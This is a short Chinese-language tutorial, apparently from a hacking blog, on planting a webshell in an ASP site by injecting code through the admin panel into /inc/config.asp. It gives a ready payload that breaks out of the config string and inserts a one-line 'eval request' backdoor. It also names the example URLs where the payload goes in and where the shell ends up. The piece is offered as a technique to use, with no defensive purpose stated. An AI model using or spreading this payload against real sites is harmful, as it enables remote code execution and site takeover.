

**配置文件拿WEBSHELL** 

这种风险是很大的 插入出错会导致整个网站坏掉。一般在asp里面 网站的配置文件就在/inc/config.asp里面

配置内容不是插入数据库里面的，也不是从数据库里面读出来的，可以采用这种方法拿WEBSHELL

http://www.aspasp.com/admin/

```
"%><%eval request("d")%><%s="
```



闭合前面的  闭合后面的内容

插入一句话的文件

http://www.aspasp.com/inc/config.asp